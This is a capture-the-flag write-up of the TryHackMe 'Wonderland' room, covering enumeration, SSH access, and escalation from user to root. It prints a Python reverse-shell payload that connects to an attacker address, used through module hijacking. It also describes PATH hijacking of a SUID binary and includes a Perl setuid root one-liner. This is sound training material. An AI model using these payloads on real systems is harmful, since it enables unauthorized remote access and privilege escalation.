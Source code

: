 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories: [TryHackMe, WriteUp]
tag: [TryHackMe, WriteUp, Wonderland]
img_path: /assets/img/Wonderland/
---
```


Wonderland can be found [here](https://tryhackme.com/room/wonderland)

![Wonderland](Wonderland.jpeg)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](randomPY.png)

![rabbitShell](rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](newDate.png)

The tmp directory is also added to the path

![PATH](PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](TeaPartyExec.png)

![HatterShell](HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](HatterPassword.png)

![HatterSSH](HatterSSH.png)

I ran through the [Privilege Escalation Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](GetCap.png)

There is a privilege escalation path found on [GTFO bins](https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](rootWonderland.png)
